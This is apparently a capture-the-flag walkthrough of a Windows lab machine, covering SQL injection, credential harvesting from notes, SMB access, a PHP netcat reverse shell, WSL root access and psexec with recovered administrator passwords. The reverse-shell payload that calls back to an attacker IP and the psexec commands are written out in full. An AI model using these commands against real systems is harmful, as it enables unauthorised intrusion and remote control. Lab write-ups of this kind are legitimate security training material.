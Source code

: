 #windows
# Initial Nmap Scan

![Pasted image 20230220120110](https://user-images.githubusercontent.com/71300144/220217556-37f2706b-3fe9-400e-9859-81ff99881c51.png)

# SMB

- Can not connect to SMB via anonymous

# Website on 80

![Pasted image 20230220120217](https://user-images.githubusercontent.com/71300144/220217591-bb30c1c7-6215-42d3-a59d-e9fc2ebc7a60.png)


- Login page present but can not find and SQL injection. Ran sqlmap
- did this by intercepting the POST request in BURP and saving it in a file called request.txt and running the following command `sqlmap -r request.txt`

![Pasted image 20230220120727](https://user-images.githubusercontent.com/71300144/220217672-dfccf0ad-cb74-4f89-8039-575381e39070.png)

- Lets sign up and see if there is sql injection on the sign up page
- sqlmap did not find any injectable values but it looks like it is vulnerable to cross site scripting.


- So if we use a sql injectectable value as the username and password we might be able to log in as an admin to the site

![Pasted image 20230220121435](https://user-images.githubusercontent.com/71300144/220217761-556b3255-b300-45d7-8479-e419f9aae9ef.png)

- Log in using these credentials

![Pasted image 20230220121735](https://user-images.githubusercontent.com/71300144/220217796-29d55191-c29c-47a0-9521-68a6df084505.png)

- Here you can see access to all notes including some credentials that look like it is for an smbshare
	- \\secnotes.htb\new-site
			tyler / 92g!mA8BGjOirkL%OG*&
- Now we are able to log into the smbshare

![Pasted image 20230220121839](https://user-images.githubusercontent.com/71300144/220217863-7029a64e-d14b-42d4-aadb-e2b90f04fe19.png)

- We can also see that this share is hosting an iis server which we saw in our initial nmap scan on port 8808

![Pasted image 20230220122318](https://user-images.githubusercontent.com/71300144/220217972-dc84d83c-2210-4a9a-a8fa-d02e034995fa.png)

- We can see that this is exactly the case
- Lets try a psexec for a quick win since we have some credentials
	- `python2 /usr/local/bin/psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.10.10.97`
	- this does not work, so we have to try another way lets have another look at the site and see what kind of technology is hosted

![Pasted image 20230220123257](https://user-images.githubusercontent.com/71300144/220218011-13a080f7-c28a-4a26-81e9-3084f2790388.png)

- If we look a Wappalyze we can also see that th website is using PHP, we can take advantage of this since php is server side executed.

![Pasted image 20230220122720](https://user-images.githubusercontent.com/71300144/220218047-a19ff526-7eed-43ab-8cd6-452602917af6.png)

- lets try to upload nc.exe and a php reverse shell command to execute via server side after we access it on the website
	- NOTE: Ther is sometype of antivirus or defender firewall that is removing the files put into the smbshare every minute or two, so we have to act fast.
- Locate nc.exe and copy to current directory where you are logged into smb at 

![Pasted image 20230220123646](https://user-images.githubusercontent.com/71300144/220219818-969ff4df-8e1d-49dd-9603-eb88a4d34262.png)

- Create a php command that connects back to our machine 

`<?php system('nc.exe -e cmd.exe 10.10.14.8 9999') ?>`

This PHP command is using the `system()` function to execute a system command.

The command being executed is `nc.exe -e cmd.exe 10.10.14.8 9999`, which is running a program called `nc.exe` and passing it several arguments:

-   `-e` specifies that the following command should be executed after a connection is established.
-   `cmd.exe` is the command that will be executed after the connection is established. In this case, it is the Windows command prompt, which provides an interface for running Windows commands.
-   `10.10.14.8` is the IP address of the remote host that the connection will be made to.
-   `9999` is the port number to connect to on the remote host.

In summary, this command is using `nc.exe` to create a reverse shell to the remote host specified by IP address `10.10.14.8` on port `9999`.

![Pasted image 20230220124036](https://user-images.githubusercontent.com/71300144/220220017-1dac6271-5014-4e1a-9a85-a502f1b8fbb6.png)

- Now call the php-reverse.php file 

![Pasted image 20230220124145](https://user-images.githubusercontent.com/71300144/220220152-cbbad278-d88e-40ef-884e-70c3b01f5882.png)

- You should now have a shell

![Pasted image 20230220124211](https://user-images.githubusercontent.com/71300144/220220212-9eda6908-80fd-42f1-b021-4587dff82339.png)

- It was hinted to look for WSL (Windows Subsystem for Linux) the following commands were ran 
![[Pasted image 20230220124519.png]]

- If we take the file path found and ask whoami it returns root on the wsl.exe

![Pasted image 20230220124519](https://user-images.githubusercontent.com/71300144/220220315-3c9bfd86-ae50-48ad-ba31-f4722b366580.png)

- Runnign bash.exe 
- basic commands 
	- whoami
	- hostname
	- uname -a 
	- convert to a tty shell
		- `python -c "import pty;pty.spawn('/bin/bash')"`

![Pasted image 20230220124850](https://user-images.githubusercontent.com/71300144/220220358-48fdaaf2-3fc5-477e-a01e-96edffe8d9a9.png)

- Looking at history to see if there is anything interesting and we see some creds for admin accessing teh smbshare

![Pasted image 20230220125310](https://user-images.githubusercontent.com/71300144/220220508-e910f4dd-58ff-4af7-880b-c92368b084ef.png)

- Open a new tab and replace local IP for target IP and try to connect to the SMB share as admin. You are able to access it as admin

![Pasted image 20230220125423](https://user-images.githubusercontent.com/71300144/220220638-d0552c4f-224a-46ef-8d15-a1322690a3b6.png)

- THis is technically not a real shell so lets take the credentials we found and try the psexec command again, maybe the administrator re-used the password for other things

![Pasted image 20230220130226](https://user-images.githubusercontent.com/71300144/220220761-24137d93-8a8d-4dc0-b66a-8ba94f15d078.png)

`python2 /usr/local/bin/psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97`

